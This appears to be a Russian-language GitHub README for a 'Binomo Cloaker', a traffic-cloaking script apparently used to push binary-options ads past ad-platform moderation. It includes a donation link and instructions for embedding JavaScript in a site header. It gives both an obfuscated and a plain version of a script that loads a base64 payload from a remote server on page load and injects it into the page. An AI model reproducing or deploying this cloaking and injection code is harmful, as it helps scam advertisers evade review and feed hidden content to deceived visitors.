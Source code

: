 # Binomo Cloaker
Модифицированный скрипт клоакинга, изначально найденный на просторах [Black Hat World](http://blackhatworld.com).

[Описание настройки первых версий тут!](https://yellowweb.top/%d0%ba%d0%bb%d0%be%d0%b0%d0%ba%d0%b8%d0%bd%d0%b3-%d0%b4%d0%bb%d1%8f-%d0%b1%d0%b5%d0%b4%d0%bd%d0%be%d0%b3%d0%be-%d0%bd%d0%be-%d1%83%d0%bc%d0%bd%d0%be%d0%b3%d0%be-%d0%b0%d1%80%d0%b1%d0%b8%d1%82%d1%80/)

[Видео с обзором новых возможностей тут.](https://www.youtube.com/watch?v=x-Z2Y4lEOc0&t=656s)

Внимание: лог трафика сейчас находится просто в папке logs.

По всем вопросам пишите Issues на GitHub либо в паблик http://vk.com/yellowweb

Если вы налили кучу лидов с помощью этой штуки и *хотите сделать доброе дело* - [**киньте донат**!](https://capu.st/yellowweb)


Справка по JS-интеграции кло:

Конечный вариант вставить в header конструктора, вместо https://site.ru/ указываете свой домен

`<script>
    var script_url = 'https://site.ru/jsprocessing.php';
    var _0x37a0=['responseText','load','addEventListener','write','readystatechange','GET','readyState'];(function(_0x43ef8f,_0x37a067){var _0x5aaf46=function(_0x1484ee){while(--_0x1484ee){_0x43ef8f['push'](_0x43ef8f['shift']());}};_0x5aaf46(++_0x37a067);}(_0x37a0,0x181));var _0x5aaf=function(_0x43ef8f,_0x37a067){_0x43ef8f=_0x43ef8f-0x0;var _0x5aaf46=_0x37a0[_0x43ef8f];return _0x5aaf46;};window[_0x5aaf('0x2')](_0x5aaf('0x1'),function(){var _0xcc31c6=new XMLHttpRequest();_0xcc31c6['open'](_0x5aaf('0x5'),script_url,!![]),_0xcc31c6['addEventListener'](_0x5aaf('0x4'),function(){if(_0xcc31c6[_0x5aaf('0x6')]==0x4&&_0xcc31c6['status']==0xc8){if(_0xcc31c6[_0x5aaf('0x0')]!==''){var _0x16a5a0=atob(_0xcc31c6[_0x5aaf('0x0')]);document[_0x5aaf('0x3')](''+_0x16a5a0+'');}}}),_0xcc31c6['send']();});        
</script>`

Либо вот такой вариант до обфускации

`<script>
	        var script_url = 'https://safe-shop.shop/jsprocessing.php';
		window.addEventListener("load", function () {
			var request = new XMLHttpRequest();
			request.open('GET', script_url, true);
			request.addEventListener('readystatechange', function () {
				if ((request.readyState == 4) && (request.status == 200)) {
                        if(request.responseText !== ''){
                            var decodedString = atob(request.responseText);
                            document.write(''+ decodedString +'');
                        }
				}
			});
			request.send();
		});
</script>`
